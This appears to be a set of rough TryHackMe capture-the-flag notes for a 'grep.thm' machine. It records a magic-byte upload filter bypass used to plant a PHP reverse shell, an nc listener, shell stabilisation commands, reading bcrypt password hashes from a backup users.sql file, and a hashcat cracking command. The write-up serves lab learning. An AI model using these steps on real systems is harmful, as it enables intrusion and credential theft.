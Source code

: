 ```

00000000 ff d8 ff e0

upload file = "File uploaded successfully"

nc -nlvp 4445

now we go to /uploads

we see revshell.php
failed so open the rev shell PHP file (new one)
add AAAA at the top

do the hexedit revshell2.php 

https://grep.thm/public/html/upload.php

successful

https://grep.thm/api/uploads/

click on revshell2.php

terminal for listener

ls

# stabilize the shell
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
ctrl z
stty raw -echo; fg
stty rows 38 columns 116

ls 
tryhackme ubuntu

cd /var/www/
ls -la
cd leakchecker/
ls

cd ..
cd backup
ls
cat users.sql

INSERT INTO `users` (`id`, `username`, `password`, `email`, `name`, `role`) VALUES
(1, 'test', '$2y$10$dE6VAdZJCN4repNAFdsO2ePDr3StRdOhUJ1O/41XVQg91qBEBQU3G', 'test@grep.thm', 'Test User', 'user'),
(2, 'admin', '$2y$10$3V62f66VxzdTzqXF4WHJI.Mpgcaj3WxwYsh7YDPyv1xIPss4qCT9C', 'admin@searchme2023cms.grep.thm', 'Admin User', 'admin');



hashes - hash identifier == Blowfish
$2y$10$3V62f66VxzdTzqXF4WHJI.Mpgcaj3WxwYsh7YDPyv1xIPss4qCT9C

hashcat -m 3200 -a0 -o cracked.txt hashfile.txt /usr/share/wordlists/rockyou.txt




```